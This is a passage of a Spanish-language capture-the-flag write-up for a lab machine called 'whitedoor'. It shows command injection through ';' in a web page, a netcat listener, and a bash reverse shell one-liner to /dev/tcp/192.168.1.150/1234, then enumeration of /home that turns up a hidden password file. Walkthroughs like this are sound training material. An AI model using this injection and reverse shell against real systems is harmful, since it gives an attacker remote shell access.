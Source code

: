 
### Reverse shell

> Quería puntualizar que en el propio index, podemos ejecutar otros comandos utilizando la "trampa" para separar múltiples comandos en una sola línea, utilizando ";". De forma que podríamos poner "ls; id" y se interpretarían correctamente ambos comandos.

Aquí sí nos permite usar cualquier comando, así que de esta forma, nos ponemos como siempre a la escucha con:

`nc -nlvp 1243` 

y tratamos de entablar una reverse shell introduciendo en la caja del navegador:

`bash -c "/bin/bash -i >& /dev/tcp/192.168.1.150/1234 0>&1"` 

Tras esto conseguimos el RCE y acto seguido realizamos el [tratamiento de la TTY](https://kaianperez.github.io/tty/).

Ahora nos vamos directamente a */home* y revisamos qué directorios de trabajo y permisos tenemos:

~~~bash
www-data@whitedoor:/home$ ls -la
total 16
drwxr-xr-x  4 root       root       4096 Nov 16 16:58 .
drwxr-xr-x 18 root       root       4096 Nov 15 23:05 ..
drwxr-x---  9 Gonzalo    whiteshell 4096 Nov 17 18:11 Gonzalo
drwxr-xr-x  9 whiteshell whiteshell 4096 Nov 17 18:47 whiteshell
~~~

Como en *Gonzalo* no tenemos permisos, vamos a revisar *whiteshell*:

~~~bash
www-data@whitedoor:/home$ cd whiteshell/
www-data@whitedoor:/home/whiteshell$ ls -laR
.:
total 48
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 .
drwxr-xr-x 4 root       root       4096 Nov 16 16:58 ..
lrwxrwxrwx 1 root       root          9 Nov 16 00:43 .bash_history -> /dev/null
-rw-r--r-- 1 whiteshell whiteshell  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 whiteshell whiteshell 3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 whiteshell whiteshell 4096 Nov 16 17:05 .local
-rw-r--r-- 1 whiteshell whiteshell  807 Apr 23  2023 .profile
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 18:43 Desktop
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 Documents
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 Downloads
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 Music
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 Pictures
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 Public

./.local:
total 12
drwxr-xr-x 3 whiteshell whiteshell 4096 Nov 16 17:05 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 ..
drwx------ 3 whiteshell whiteshell 4096 Nov 16 17:05 share
ls: cannot open directory './.local/share': Permission denied

./Desktop:
total 12
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 18:43 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 ..
-r--r--r-- 1 whiteshell whiteshell   56 Nov 16 09:07 .my_secret_password.txt

./Documents:
total 8
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 ..
~~~